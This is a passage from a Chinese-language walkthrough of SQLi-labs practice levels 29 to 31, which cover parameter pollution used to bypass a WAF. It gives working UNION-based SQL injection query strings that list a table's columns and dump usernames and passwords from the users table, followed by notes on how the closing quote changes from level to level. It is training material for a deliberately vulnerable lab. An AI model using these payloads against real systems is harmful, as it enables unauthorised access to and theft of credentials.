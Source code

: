 

> 
<h3>3.7、第六步：爆字段</h3>
?id=1&amp;id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+




> 
<h3>3.8、第七步：爆数据</h3>
?id=1&amp;id=-1' union select 1,2,group_concat(username,'-',password) from security.users--+



---


---


---


## 四、Less30（GET-Blind- IMPIDENCE MISMATCH - Having a WAF in front of web application）

> 
<h3>4.1、简介：（参数污染-报错回显-字符型注入-waf）</h3>
请求方法：GET
方法：参数污染+闭合（字符型注入）+报错回显


> 
<h3>4.2、利用：</h3>
与Less29相比
就是将单引号闭合，改为了双引号


---


---


---


## 五、Less31（GET-Blind- IMPIDENCE MISMATCH - Having a WAF in front of web application）

> 
<h3>5.1、简介：（参数污染-报错回显-字符型注入-waf）</h3>
请求方法：GET
方法：参数污染+闭合（字符型注入）+报错回显


> 
<h3>5.2、利用：</h3>
与Less30相比
就是将多了一个括号闭合

